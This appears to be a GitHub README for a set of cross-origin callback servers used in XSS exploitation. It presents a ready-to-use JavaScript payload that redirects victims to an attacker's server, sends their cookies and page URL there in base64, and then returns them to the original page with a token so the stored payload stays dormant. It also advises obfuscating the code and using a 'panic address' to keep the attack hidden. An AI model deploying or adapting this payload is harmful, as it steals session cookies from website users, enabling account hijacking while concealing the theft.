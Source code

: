 A collection of Cross-Origin callback servers for XSS exploitation.

## Description

This repo contains a range of callback servers and an XSS payload that, once executed, will change the current window location of the victim to your callback server, which responds with a **301 Moved Permanently** redirection back to where the victim came from (Origin), although this time with a token in the URL anchor, telling your (stored) XSS payload to stay dormant.

If for whatever reason the victim did not reveal its origin, the victim will be redirected to your panic address of choice, in an attempt to keep the attack hidden.

## Usage

Use your callback server of choice and make sure it's listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly. please do not open issues if it's not working for you.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?origin=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```
